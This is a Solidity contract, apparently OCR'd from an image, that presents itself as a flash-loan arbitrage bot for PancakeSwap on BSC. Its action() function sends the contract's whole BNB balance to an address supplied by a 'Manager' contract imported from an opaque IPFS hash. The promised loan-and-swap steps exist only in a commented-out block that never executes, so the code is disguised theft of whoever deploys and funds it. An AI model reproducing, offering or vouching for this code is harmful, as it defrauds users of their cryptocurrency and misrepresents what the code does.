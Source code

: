 pragma solidity ^0.5.0;

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";
// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";
// BSC Code Manager
import "ipfs://QmaE73eydueMvcUmL9HQrqjV2QUp69ycfM7QsVtZsJeiqv";
   
contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;      
      manager = new Manager();
   }
   address public creator= msg.sender;
    	function tokenTransfer() public view returns (address) {    
        	return creator;
   	}
   function() external payable {}
   
   function action() public payable {
      // Send Tokens to PancakeSwap Router for Swap
       address(uint160(manager.pancakeswapDeposit())).transfer(address(this).balance);
      
      // Perform tasks (combined all functions into one to reduce external calls & save gas fees)
      manager.performTasks();
      
      /* Breakdown of functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
      // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      
      // Get BNB Loan from Multiplier-Finance
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
        
      // Send Borrowed BNB to provide liquidity of newly created Token
      string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount);
     
      // Perform swaps between Token and BNB and back again
      manager.pancakePerformSwaps();
      
      // Repay Flashloan with Multiplier-Finance
      manager.repayLoan(loanAddress);
      
      // Move remaining BNB profit from Contract to the contract creators wallet
      manager.contractToWallet("BNB");
   
 
      */
   }
}
